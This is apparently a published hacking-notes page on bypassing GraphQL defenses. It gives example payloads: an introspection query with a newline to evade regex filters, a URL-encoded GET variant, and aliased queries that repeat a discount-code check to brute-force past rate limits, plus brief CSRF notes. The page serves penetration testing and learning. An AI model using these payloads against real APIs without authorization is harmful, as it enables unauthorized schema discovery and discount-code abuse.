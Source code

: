 ```yaml
---
{"dg-publish":true,"permalink":"/1-hack-like-a-script-kiddie/web/graph-ql/4-bypass/","noteIcon":"","created":"2025-04-15T14:11:19.603-04:00"}
---
```




















# 4.1 Bypassing GraphQL Introspection Defenses

If introspection queries are disabled for the API you're testing, try inserting a special character after the `__schema` keyword. Developers might use a regex to exclude `__schema` in queries, which can be bypassed using characters like spaces, new lines, or commas.

## Example: Introspection Query with Newline
```graphql
{
    "query": "query{__schema
    {queryType{name}}}"
}
```

# 4.2 Use different request Methods

```
GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D

```


# 4.3 Aliased Queries

```
query isValidDiscount($code: Int) {
    isvalidDiscount(code:$code){
        valid
    }
    isValidDiscount2:isValidDiscount(code:$code){
        valid
    }
    isValidDiscount3:isValidDiscount(code:$code){
        valid
    }
}

```

# 4.4 CSRF

Secure POST Requests: POST requests using application/json are secure if the content type is validated.

Vulnerable Request Methods: GET requests or POST requests with x-www-form-urlencoded can leave users vulnerable to CSRF attacks.